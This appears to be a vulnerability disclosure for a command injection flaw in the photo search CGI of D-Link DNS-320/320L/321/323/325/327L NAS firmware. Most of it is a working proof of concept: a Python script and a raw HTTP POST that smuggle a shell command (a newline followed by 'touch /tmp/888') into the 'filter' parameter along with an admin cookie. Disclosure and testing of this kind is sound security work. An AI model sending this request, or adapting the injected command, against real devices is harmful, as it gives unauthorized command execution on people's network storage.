 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_photo_search function of the file /cgi-bin/photocenter_mgr.cgi.  The variable `filter`is passed from a POST request and is assigned to `v6` via the `sprintf` function at line 64  and invoked by the `system` command,  the `SpecSymbol2BackSlash` function did not work  which leads to command execution.
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723430373673-1d8528fa-fdd2-4fed-9d11-01507a0aceab.png#averageHue=%23fdfdfd&clientId=u7900f0f6-ca3c-4&from=paste&height=515&id=ue81ec055&originHeight=579&originWidth=1288&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=92762&status=done&style=none&taskId=ua3d4d0ab-1711-4966-84f1-da638ae3de6&title=&width=1144.888888888889)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723430343865-318edfba-b968-4cae-bf51-e02111fe1954.png#averageHue=%23fafaf8&clientId=u7900f0f6-ca3c-4&from=paste&height=158&id=u740ca0a5&originHeight=178&originWidth=1523&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=27616&status=done&style=none&taskId=ubd8ebff7-b733-48b6-b48b-2b3dc1937f1&title=&width=1353.7777777777778)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/photocenter_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_photo_search&filter=%0atouch%09/tmp/888%0a&type=photos&user=10&page=10&r=10&date=19&album_name=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/photocenter_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_photo_search&filter=%0atouch%09/tmp/888%0a&type=photos&user=10&page=10&r=10&date=19&album_name=/tmp/
```

